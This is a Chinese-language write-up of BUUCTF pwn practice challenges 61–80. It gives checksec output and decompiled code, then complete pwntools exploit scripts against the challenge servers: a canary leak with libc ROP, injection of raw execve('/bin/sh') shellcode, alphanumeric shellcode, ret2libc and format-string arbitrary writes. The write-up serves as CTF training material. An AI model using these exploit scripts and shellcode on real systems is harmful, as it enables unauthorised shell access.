






# buu刷题记录（61-80题）

by Maple

## 61 others_babystack

***canary+libc***

`checksec`一下

```shell
❯ checksec pwn
[*] '/home/pwn/pwn/buuctf/61/pwn'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
```

NX保护，Canary保护，所以思路应该是泄露Canary，然后泄露libc，然后ROP

看下源码

```c
ssize_t sub_4008B9()
{
  sub_400826("--------");
  sub_400826("1.store");
  sub_400826("2.print");
  sub_400826("3.quit");
  sub_400826("--------");
  return sub_4007F7(">> ");
}
int sub_400841()
{
  char s[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v2; // [rsp+38h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(s, 0, 0x20uLL);
  if ( (int)read(0, s, 0x20uLL) <= 0 )
    exit(1);
  return atoi(s);
}
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  int v3; // eax
  char s[136]; // [rsp+10h] [rbp-90h] BYREF
  unsigned __int64 v6; // [rsp+98h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  memset(s, 0, 0x80uLL);
  while ( 1 )
  {
    sub_4008B9();
    v3 = sub_400841();
    switch ( v3 )
    {
      case 2:
        puts(s);                                // 回显Canary
        break;
      case 3:
        return 0LL;
      case 1:
        read(0, s, 0x100uLL);                   // 可以溢出
        break;
      default:
        sub_400826("invalid choice");
        break;
    }
    sub_400826(&unk_400AE7);
  }
}
```

是一个菜单，1对应输入，2对应输出（用puts）

所以canary截断泄露，libc用puts泄露，然后构造ROP

```python
from pwn import *
from struct import pack
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
libc = ELF("./libc-2.23.so")
#p = process('./pwn')
p = remote('node5.buuoj.cn',29212)

#--------Canary-------
payload = b'a'*(0x90-0x8)
p.recvuntil('>> ')
p.sendline('1')
p.sendline(payload)
p.recvuntil('>> ')
p.sendline('2')
p.recvuntil(b'a'*(0x90-0x8)+b'\n')
canary = u64(b'\x00'+p.recv(7))
log.info("canary:"+hex(canary))

#-------leak_libc------
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
main = 0x400908
pop_rdi = 0x0000000000400a93
p.sendlineafter('>> ','1')
payload1 = b'a'*0x88+p64(canary)+b'b'*0x8+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(m
ain)
p.sendline(payload1)
p.sendlineafter('>> ','3')
puts_addr = u64(p.recv(6).ljust(8,b'\x00'))
libc_base = puts_addr-libc.symbols['puts']
log.info("libc_base"+hex(libc_base))

#---------getshell-------
p.sendlineafter('>> ','1')
one_gadget = libc_base+0x45216
payload2 = b'b'*0x88+p64(canary)+b'b'*0x8+p64(one_gadget)
p.sendline(payload2)
p.sendlineafter('>> ','3')
p.interactive()
```

*这边用的one_gadget,正常的ROP也是没有问题的*

## 62 pwnable_start

***shellcode***

`checksec`一下

```shell
❯ checksec pwn
[*] '/home/pwn/pwn/buuctf/62/pwn'
    Arch:       i386-32-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX disabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

保护全关

ida看一下，汇编写的

```assembly
public _start
_start proc near
push    esp
push    offset _exit
xor     eax, eax
xor     ebx, ebx
xor     ecx, ecx
xor     edx, edx
push    3A465443h
push    20656874h
push    20747261h
push    74732073h
push    2774654Ch
mov     ecx, esp        ; addr
mov     dl, 14h         ; len
mov     bl, 1           ; fd
mov     al, 4
int     80h             ; LINUX - sys_write
xor     ebx, ebx
mov     dl, 3Ch ; '<'
mov     al, 3
int     80h             ; LINUX -
add     esp, 14h
retn
```

扔给ai分析一下，read那里可以读入60字节，但是栈只有20字节，可以溢出

所以我们可以先给esp指的位置泄露出来，然后把那个地方写入shellcode并执行
```python
from pwn import *
context.arch = 'i386'
#p = process('./pwn')
p = remote('node5.buuoj.cn',25719)
payload = b'a'*20+p32(0x08048087)# ida里可以看到，这里对应的是	mov		ecx,esp
p.recvuntil(b':')
p.send(payload)
leak = u32(p.recv(4))
shellcode = b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
#shellcode = asm(shellcraft.sh())
payload2 = b'a'*20+p32(leak+20)+shellcode
p.send(payload2)
p.interactive()
```

可以在[这里](http://shell-storm.org/shellcode/index.html)找一些合适的shellcode

## 63 gyctf_2020_borrowstack

直接看[这篇](https://www.cnblogs.com/ZIKH26/articles/15817337.html)吧

## 64 hitcontraining_heapcreator

施工中

## 65 ciscn_2019_n_3

## 69 mrctf2020_shellcode_revenge

#### 可见字符shellcode

可以学一下alpha3的使用

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
host = 'node5.buuoj.cn'
post = 29364
p = process('./pwn')
p = remote(host,post)
elf = ELF('./pwn')
#libc = ELF('./pwn')
#gdb.attach(p)

shellcode = asm(shellcraft.sh())
shellcode = "Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z
0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t"
p.send(shellcode)
p.interactive()
```

## 70 jarviso_level5

ret2libc_x86

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
#p = process('./pwn')
p = remote('node5.buuoj.cn',25410)
elf = ELF('./pwn')
libc = ELF('./libc-2.19.so')
#gdb.attach(p)

pop_rdi = 0x00000000004006b3
pop_rsi_r15 = 0x00000000004006b1
write_got = elf.got['write']
write_plt = elf.plt['write']
main = elf.sym['main']
p.recvuntil(b'\n')
payload = b'a'*0x80+b'b'*0x8+p64(pop_rdi)+p64(1)+p64(pop_rsi_r15)+p64(write_got)+p64(0)+
p64(write_plt)+p64(main)
p.send(payload)
write_addr  = u64(p.recv(8))

libc = LibcSearcher("write",write_addr)
libc_base = write_addr-libc.dump('write')
log.info("libc_base:"+hex(libc_base))

sys = libc_base+libc.dump('system')
binsh = libc_base+libc.dump('str_bin_sh')
payload2 = b'a'*0x88+p64(pop_rdi)+p64(binsh)+p64(sys)+p64(0)
p.sendline(payload2)
p.interactive()
```

## 72 网鼎杯第二轮EasyFMT

格串泄露+格串实现任意写

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
host = 'node5.buuoj.cn'
post = 29555
#p = process('./pwn')
p = remote(host,post)
elf = ELF('./pwn')
#gdb.attach(p)

offset = 6

payload = p32(elf.got['printf'])+b'%6$s'
p.sendline(payload)
printf_addr = u32(p.recvuntil(b'\xf7')[-4:])
log.info("printf_addr:"+hex(printf_addr))

libc = LibcSearcher('printf',printf_addr)
libc_base = printf_addr-libc.dump('printf')
log.info("libc_base:"+hex(libc_base))
sys = libc_base+libc.dump('system')
sys = libc_base+libc.sym['system']
payload = fmtstr_payload(offset,{printf_addr:sys})
p.sendline(payload)
p.sendline(b'/bin/sh\x00')


p.interactive()

```

## 73 mrctf2020_easy_equation

格串_x86,有些小细节

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
host = 'node5.buuoj.cn'
post = 29555
p = process('./pwn')
#p = remote(host,post)
elf = ELF('./pwn')
#gdb.attach(p)

payload = b'aa%9$nAAA'+p64(0x60105c)
p.sendline(payload)
pause()
p.interactive()
```

经过检查

- `judge==2`时，执行shell，

- 没有开启ASLR和PIE

- 有格串漏洞

- judge_addr = 0x60105c

- 输入地址的偏移为8（其实实际上是第7位的最后一位，加一位补齐就行了）

  > [!NOTE]
  >
  > 
  >
  > 可以看到gdb这里看的很清楚，输入了4个a，第一个在`rax-7`处

那么我们填充到第8位试一下

`payload = b’aa%8$n’+p64(0x60105c)`

不能getshell，看一下调式信息



发现judge并没有改变，为什么呢？





其实第一个被拿去补位了，它又只有五位，导致后面地址也出现了偏移，被截断了（60之后全是00）

所以payload应再补3位对齐，这个时候地址偏移应该是到了第9位

`payload = b’aa%8$nAAA’+p64(0x60105c)`

调试看看





地址被挤到了第9位，WIN!

> [!IMPORTANT]
>
> 其实payload直接写成`b’a’*0x9+p64(0x4006D0)`也行
